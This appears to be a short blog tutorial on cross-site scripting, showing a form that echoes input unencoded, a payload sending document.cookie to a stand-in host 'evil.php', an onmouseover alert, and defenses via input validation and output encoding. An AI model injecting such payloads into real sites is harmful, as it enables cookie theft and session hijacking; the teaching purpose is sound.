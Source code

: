 ```yaml
---
layout: post
title:  Security Series - XSS
tags: security
icon: images/security.png
---
```


This is the second post of a **Web Security Series**. Let's talk about the well known XSS (Cross-Site Scripting) attack.

## XSS

XSS attacks are based on script injection exploiting the echoes/output from the server in response to user input, without validation or output encoding.

```html
<form action="benign.php" method="post">
    <input type="text" name="message">
    <input type="submit" value="submit">
</form> 

<!-- output sent message -->
${message}
```

#### Example #1

Injecting a script to send cookies to a malicious site.

```html
<script>new Image().src = ‘http://evil.php/steal?' + document.cookie</script>
```

#### Example #2

Injecting a simple tag to execute random javascript.

```html
<b onmouseover=alert('Wufff!')>click me!</b>
```

## Solution

There are two well known types of XSS attacks (Stored and Reflected). Stored or persistent *XSS* attacks are saved/persisted in the backend and can be retrieved later for various uses. Reflected are the ones shown in the previous examples.

To address both the issues, both user **input validation** should be enforced as well as **output encoding**.

### Input Validation

We can use the framework of choice to help validate user input. We should strive for whitelisting as much as possible.

```java

// bean validation example
class Message {

@NotNull
@Pattern(regexp="[a-z]*")
@Size(min=5, max=10)
private String payload;

// getters and setters omitted
}

// controller 
@Valid Message message;
```

Couple of **Important Notes**:
* whitelist as much as possible, not blacklist.
* Avoid reflecting input back to the user (form, url, etc).

### Output Validation

Leverage the framework encoding capabilities to encode the output to prohibit writing malicious code back into the *HTML*.

```html
<!-- output sent message (jstl) -->
<c:out value="${message}"/>
```

## Caveats

**Response Header**
- X-XSS-Protection: 1; mode=block

Although modern browser use this header to validate XSS potential responses and block the output. This should not be relied upon as some browsers can disregard this instruction.

****
 